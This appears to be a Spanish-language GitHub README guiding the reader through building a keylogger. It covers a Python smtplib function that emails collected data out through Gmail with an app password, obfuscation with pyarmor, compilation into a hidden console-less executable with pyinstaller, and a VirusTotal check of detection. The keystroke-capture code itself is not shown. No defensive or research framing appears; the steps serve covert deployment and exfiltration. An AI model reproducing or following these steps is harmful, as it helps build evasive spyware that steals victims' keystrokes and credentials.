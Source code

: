 # **Keylogger: Guía de Configuración y Uso**

## **1. Requisitos Previos**

### **a. Configuración del Entorno**

1. **Instalar Python**:  
   Asegúrate de tener Python 3.x instalado en tu sistema.  
   Descárgalo desde [python.org](https://www.python.org/downloads/).
2. **Instalar las dependencias necesarias**:  
   Ejecuta el siguiente comando en tu terminal:
   ```bash
   pip install pynput
   ```
### **b. Crear una Clave de Aplicación en Gmail**
Accede a tu cuenta de Gmail.

Ve a la página de configuración de contraseñas de aplicación:

myaccount.google.com/apppasswords

Genera una clave de aplicación:

Selecciona "Correo" como aplicación.

Selecciona "Equipo personal" como dispositivo.

Copia la clave generada (por ejemplo: yxki jwbt ebfu khvc).

![Pasted image 20240628130101](https://github.com/user-attachments/assets/88b09cca-fac8-4f1a-893a-319198f6ae93)

⚠️ Importante: No compartas esta clave públicamente y guárdala de forma segura.

## **2. Crear el Script del Keylogger**
### **a. Archivos Requeridos**
Crea los siguientes archivos con el código proporcionado:

- Archivo: main.py
- Archivo: keylogger.py

### **b. Clave de aplicación**
La parte del script donde añadir los datos de envió del mail están en esta parte, y no te olvides de importar las librerías!!!
```python
import smtplib
from email.mime.text import MIMEText

subject = "Email Subject"
body = "This is the body of the text message"
sender = "sender@gmail.com"  #Sender Email Address
recipients = ["recipient1@gmail.com", "recipient2@gmail.com"]  # Multiple email address can be given
password = "password" # Gmail Application Password

# We will create a function to send mail .We will pass above values in funcion parameter.
def send_email(subject, body, sender, recipients, password):
    msg = MIMEText(body)   # Creating msg object using MIMEText class of email module
    msg['Subject'] = subject  # Assigning the subject
    msg['From'] = sender  # Assigning the sender email address
    msg['To'] = ', '.join(recipients)  # Assigning recepients email address.
    with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:   # Creating connection using context manager
       smtp_server.login(sender, password)
       smtp_server.sendmail(sender, recipients, msg.as_string())
    print("Email sent Successfully!")


# We will call the function and pass the parameter values defined in line no 4 to 8.
send_email(subject, body, sender, recipients, password)
```
## **3. Ofuscar el Código**
Ejecuta los siguientes comandos para ofuscar los scripts:
```python
pyarmor gen keylogger.py
pyarmor gen main.py
```
![Pasted image 20241204191457](https://github.com/user-attachments/assets/efd58f8e-b7cc-419b-b7c8-a24d85e9aa7f)

## **4. Compilar**
Usa pyinstaller para generar un ejecutable:
```python
pyinstaller --onefile --noconsole --add-data "dist/keylogger.py;." --hidden-import=pynput.keyboard --hidden-import=smtplib --hidden-import=termcolor --hidden-import=socket --hidden-import=os --hidden-import=email.mime --hidden-import=email.mime.text dist/main.py
```
![Pasted image 20241204191801](https://github.com/user-attachments/assets/e6a870b2-bc81-4ba5-b413-39a2a56b7f9e)

## **4. Resultado Final**
1. **Ejecutables Generados**
Una vez compilado, tendrás un archivo ejecutable en la carpeta dist.
El resultado se verá del siguiente modo:
![Pasted image 20241204192049](https://github.com/user-attachments/assets/01054c9d-8156-4a8f-a3ce-c25776f76ae5)

2. **Análisis en Virus Total**
Puedes analizar el ejecutable en Virus Total para comprobar su estado.
![Pasted image 20241204192640](https://github.com/user-attachments/assets/16ce5656-e36b-4ed4-b355-19718fb753f6)




